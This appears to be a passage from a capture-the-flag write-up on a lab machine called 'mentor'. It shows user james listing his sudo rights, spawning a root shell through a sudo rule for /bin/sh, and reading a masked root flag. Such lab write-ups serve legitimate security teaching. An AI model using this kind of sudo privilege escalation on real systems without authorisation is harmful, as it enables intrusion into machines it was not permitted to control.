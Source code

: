 #### Shell as root

james can run `/bin/sh` as root:

```

james@mentor:/$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on mentor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on mentor:
    (ALL) /bin/sh

```

It does need a password, but I have it. Running gives a root shell:

```

james@mentor:/$ sudo /bin/sh
# bash
root@mentor:/#

```

And I can grab the flag:

```

root@mentor:/# cat root/root.txt
e69f189c************************

```